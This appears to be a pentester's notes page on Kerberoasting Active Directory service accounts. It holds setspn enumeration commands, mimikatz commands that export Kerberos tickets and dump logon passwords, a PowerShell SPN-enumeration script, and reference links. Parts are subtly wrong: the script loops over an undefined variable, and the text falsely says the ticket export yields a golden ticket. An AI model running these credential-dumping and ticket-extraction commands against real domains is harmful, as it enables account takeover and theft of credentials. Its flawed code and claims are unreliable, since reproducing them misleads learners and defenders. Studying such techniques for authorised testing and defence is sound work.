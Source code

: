 # Living off the Land

Search Tag(s): #kerberoasting

## 01 - Conditions

When SPN service accounts like SQLService, iis_svc, MSSQL_SVC, etc. With two of the following conditions in order to achieve this:

1. It must be part of the **"Domain Admins"** group member.
2. Has **weak passwords** when the **Kerberos 5, etype 23, TGS-REP** hash type is crackable due to those reasons (refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^87baa5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Enumeration

### 2.1 - Command Prompt

```
C:\> setspn -T <computername>.<domain.com> -q */*

C:\> setspn -T <computername>.<domain.com> -q */* | findstr SQL

mimikatz # kerberos::list /export

mimikatz # sekurlsa::logonpasswords
```

## 2.2 - PowerShell

```
PS C:\> Add-Type -AssemblyName System.IdentityModel

PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/<FQDN>'

PS C:\> klist
```

Retrieve SPN users that are possibly **kerberoastable** of the `samaccountname` and `serviceprincipalname`.

```powershell
PS C:\> Get-Content .\enumerateSPN.ps1
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString = $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$SearchString

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter = "serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

foreach($obj in $Output) {
    foreach($prop in $obj.Properties) {
        $prop
    }
}
```

You'll get a golden ticket

```
mimikatz # kerberos::list /export
```

Right-Click > CTRL + Right-Click > Run as different user

```
mimikatz # sekurlsa::logonpasswords
```

---
## References

- [LOFLCAB: setspn](https://lofl-project.github.io/loflcab/Binaries/setspn/)

### Active Directory Security

- [Active Directory Security: SPNs](https://adsecurity.org/?page_id=183)

- [Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain)](https://adsecurity.org/?p=1667)

### Mubix

- [Malicious.link: Kerberoast Part 1](https://room362.com/posts/2016/kerberoast-pt1/)

- [Malicious.link: Kerberoast Part 2](https://room362.com/posts/2016/kerberoast-pt2/)

- [Malicious.link: Kerberoast Part 3](https://room362.com/posts/2016/kerberoast-pt3/)

### Pentestlab

- [Pentestlab Blog: SPN Discovery](https://pentestlab.blog/2018/06/04/spn-discovery/)

- [Pentestlab Blog: Kerberoast](https://pentestlab.blog/2018/06/12/kerberoast/)

### Red Team Notes

- [Red Team Notes: Active Directory Kerberos Abuse Child Domain Domain Admin to Enterprise Admin In Parent Domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

- [Red Team Notes: Active Directory Kerberos Abuse T1208-Kerberoasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

### Hacking Articles

- [Hacking Articles: Deep Dive Into Kerberoasting Attack](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)

### Certcube

- [Certcube: Kerberoasting Simplified Attack and Defense](https://blog.certcube.com/kerberoasting-simplified-attack-and-defense/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - Kerberoasting](https://blog.xpnsec.com/kerberos-attacks-part-1/)